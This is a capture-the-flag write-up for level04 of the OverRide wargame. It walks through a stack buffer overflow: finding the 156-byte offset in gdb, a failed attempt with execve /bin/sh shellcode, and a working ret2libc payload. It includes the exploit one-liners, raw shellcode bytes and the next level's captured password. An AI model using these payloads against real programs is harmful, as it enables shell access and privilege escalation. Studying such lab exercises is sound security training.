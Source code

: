 # Walkthrough

## Solution

ret2libc  
```
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + 'B' * 4 + '\xec\x97\xf8\xf7'"; cat - ) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```

## Explanation

'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars

By default, when a program forks, GDB will continue to debug the parent process and the child process will run unimpeded.  
To follow the child process instead of the parent process, we can use the command set follow-fork-mode.  
`set follow-fork-mode child`  

```
(gdb) set follow-fork-mode child
(gdb) run
Starting program: /home/users/level04/level04 
[New process 2348]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2348]
0x41326641 in ?? ()
```
-> Offset is at 156.  

Let's try to inject a shellcode after overflowing the gets buffer.  
```
level04@OverRide:~$ export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
level04@OverRide:~$ gdb level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) (gdb) x/s *((char **)environ)
Undefined command: "".  Try "help".
(gdb) x/s *((char **)environ)
0xffffd84c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
(gdb) x/12wx 0xffffd84c
0xffffd84c:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xffffd85c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd86c:	0x90909090	0x90909090	0x90909090	0x90909090
```  
Let's pick this address: 0xffffd85c  
```
level04@OverRide:~$ (python -c "print '\x90' * 156 + '\x5c\xd5\xff\xff'"; cat -) | ./level04 
Give me some shellcode, k
no exec() for you
```

--> It is not working, because there is a noexec flag set. It does not allow the execution of executable binaries in the mounted file system...  
```
level04@OverRide:~$ mount | grep noexec
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
```

--> Ret2libc  
https://www.kapravelos.com/teaching/csc591-f17/lectures/04-rop.pdf  

```
(gdb) break main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

Address of system: 0xf7e6aed0  
Address of /bin/sh: 0xf7f897ec  

```
level04@OverRide:~$ (python -c "print 'A' * 156 + '\xd0\xae\xe6\xf7' + 'bbbb' + '\xec\x97\xf8\xf7'"; cat - ) | ./level04
Give me some shellcode, k
pwd
/home/users/level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```

### Execution

```
level04@OverRide:~$ ./level04 
Give me some shellcode, k
hello
child is exiting...

level04@OverRide:~$ ./level04 
Give me some shellcode, k
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
ls
pwd
^C

```

### Disassembly
```
0x08048634  clear_stdin
0x08048657  get_unum
0x0804868f  prog_timeout
0x080486a0  enable_timeout_cons
```